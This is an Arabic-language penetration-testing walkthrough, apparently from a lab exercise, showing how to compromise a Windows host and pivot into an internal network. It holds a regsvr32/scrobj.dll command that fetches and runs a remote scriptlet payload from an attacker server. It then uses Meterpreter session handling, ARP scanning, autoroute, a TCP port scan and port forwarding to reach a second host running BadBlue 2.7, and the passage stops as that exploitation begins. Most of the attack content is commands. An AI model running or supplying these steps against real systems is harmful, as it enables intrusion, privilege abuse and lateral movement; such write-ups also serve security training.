 طبعا في التارقت فيه اكثر من خيار مثل PYTHPON php Powershell regsvr32(registery) etc..  
حنا طبعا اخترنا 3 الي هو يكون الشيل بالـريجستري لانه بيكون مستقر اكثر  
طبعا لابد نتاكد من البايلود انه يتوافق مع الحقن ف حنا اخترنا الريجستر لابد نعدل البايلود زي ماهو موضح في الاعلى  
نشوف انه الان عطانا الامر الي نكتبه بالشيل حق الـ MultyRelay  
```bash
regsvr32 /s /n /u /i:http://172.16.5.101:8080/BGQoUbCVAES.sct scrobj.dll  
```  

الان بعد ماننفذ الامر الي فوق في التارقت مشين عن طريق شيل الـ MultyRelay  
راح نرجع للميتاسبلويت ونشوف انه عطانا سيشن جديده  
```bash  
sessions [to see all session you have]  
sessions -i  1 [to interact with session id 1]  
sysinfo  
getuid  
```  

نشوف انه الان معنا الشيل ودخلنا ومعنا اعلى صلاحيات كذالك  
خلونا الان نشوف ايش الانترفيس الموجوده بهذا التارقت  
```bash  
ipconfig  
```  
نشوف انه interface 17 > ipv4 10.100.40.100  

خلونا الان نفحص كامل الشبكة الجديده باستخدام arp_scanner  
```bash  
run arp_scanner -r 10.100.40.0/24  
```  
نشوف انه عطانا هوستين الهوست الاول الي نهايته 100 وهو الي دخلنا عليه ومعنا شيل عليه  
والثاني الي نهايته 107 هو راح يكون هدفنا الجديد , خلونا نضيف كامل الشبكة بالراوت تيبل  
```bash
run autoroute -s 10.100.40.0/24  
```  

الان خلونا نخلي السيشن بالخلفيه ونفحص التارقت الجديد حقنا  
```bash
background  
use auxiliary/scanner/portscan/tcp  
set RHOSTS 10.100.40.107  
exploit  
```  
نشوف انه حصلنا البورتات هذي 80,135,445,139 شغاله  

خلونا نسوي pivoting الان ونسوي portfwd لبورت 80  
```bash  
sessions -i 1  
portfwd add -l 1234 -p 80 -r 10.100.40.107  
portfwd list  
```  

الان نقدر نفحص اللوكال هوست بورت 1234 وراح نعرف ايش الخدمة الي شغاله على بورت 80 في مشين التارقت  
```bash  
nmap -sV -p 1234 localhost  
```  
نشوف انه شغال عليه خدمة BadBlue 2.7 ونعرف انه مصاب فورا راح نستغله  
